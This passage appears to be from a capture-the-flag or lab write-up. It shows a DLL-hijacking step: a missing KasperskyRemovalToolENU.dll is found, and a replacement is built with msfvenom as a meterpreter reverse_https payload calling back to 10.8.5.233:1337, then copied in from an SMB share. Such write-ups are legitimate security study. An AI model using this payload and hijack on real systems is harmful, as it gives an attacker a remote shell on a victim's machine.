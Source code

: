 After reversing the application we found that there is a DLL named KasperskyRemovalToolENU.dll is not found

![image.png](../images/trusted%2021.png)

Now let’s create a dll using msfvenom

```bash
windows/meterpreter/reverse_https LHOST=10.8.5.233 LPORT=1337 EXITFUNC=thread -f dll -o KasperskyRemovalToolENU.dll 
```

![image.png](../images/trusted%2022.png)

now let’s transfer it to the machine

```bash
copy \\10.8.5.233\remo\KasperskyRemovalToolENU.dll KasperskyRemovalToolENU.dll
```

![image.png](../images/trusted%2023.png)
